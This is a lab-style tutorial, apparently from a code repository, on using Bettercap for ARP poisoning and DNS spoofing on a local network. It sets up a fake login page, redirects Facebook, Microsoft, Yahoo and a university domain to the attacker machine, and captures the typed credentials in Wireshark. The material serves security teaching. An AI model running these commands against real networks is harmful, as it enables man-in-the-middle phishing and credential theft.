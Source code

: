 
##    Bettercap - ARP/DNS Spoofing

https://www.youtube.com/watch?v=58_TeuJ8tPU

Network Configuration
```
--------------------         ------------------
|                  |---------|     Attacker   |
|      Router      |         |  192.168.1.10  |
|                  |         ------------------
|                  |         ------------------
|   192.168.1.1    |---------|     Victim     |
|                  |         |  192.168.1.15  |
--------------------         ------------------
```
1. Install Bettercap
```
# apt-get install build-essential ruby-dev libpcap-dev

# gem install bettercap
```
2. Create a simple 'Login Form' page

https://www.w3schools.com/howto/tryit.asp?filename=tryhow_css_login_form
```
# mv /var/www/html/index.html /var/www/html/index.html.old
# gedit /var/www/html/index.html
```
- Save this file

3. Start the Apache Web Server 

- These commands will start our web server on our Kali machine hosting the fake login page.
```
# service apache2 stop
# service apache2 start
```
- Testing the web server on our Kali machine...

Go to Web browser > http://localhost

4. Create the 'hosts' file to perform DNS spoofing

- In a real life scenario, an attacker would redirect traffic to their own machine for data sniffing. In this case, we set up a simple login page, then we use Bettercap to spoof DNS record so that when the victim visits his favorite webpages, he will be redirected to the attacker machine instead. This will probably fool the user into entering their credentials.

- We need to create a 'hosts' file which is responsible for redirecting specific DNS requests.
```
# gedit dns.conf
```
- Then add some lines as follows:
```
local .*ais\.ac\.nz
local .*facebook\.com
local .*microsoft\.com
local .*yahoo\.com
```
- Save this file

5. Using Bettercap to conduct DNS Spoofing

- Usage:
```
# sudo bettercap -I ethx -X --gateway GATEWAY --target TARGET --dns HOSTS_FILE
```
- Firstly for testing purpose, we need to clear the ARP cache on Kali machine
```
# ip -s -s neigh flush all
# ip link set arp off dev eth0; ip link set arp on dev eth0
```
- Then check the ARP cache again on Kali machine
```
# arp -n
```
- Then, we uses this command to conduct DNS Spoofing (remember select the right network interface)
```
# sudo bettercap -I eth0 -X --gateway 192.168.1.1 --target 192.168.1.15 --dns dns.conf

6. Check your test results
```
- Now every time the victim visits the webpages you indicated in the "dns.conf" file, he will be redirected to the malicious webpage.

- For testing purpose, we also need to purge the DNS resolver cache + Web browsing history on Victim machine
cmd> ipconfig /flushdns
IE / Firefox / Chrome > Clear Browsing Data

> Now it's time to check all my favorite websites 

- On Victim machine, go to AIS/Facebook/Microsoft websites

=> We can check the spoofed DNS records on the victim machine (Windows machine)
cmd> ipconfig /displaydns

=> We can also see the DNS records in Bettercap => ...Received request for 'xxxxx.xxx', sending spoofed reply 192.168.1.10...

- Then try to login using the fake webpage...
```
* Username: AIS_Username
* Password: AIS_Password
```
=> Check traffic sniffed using Wireshark > apply this filter string
```
ip.addr == 192.168.1.15 && http
```
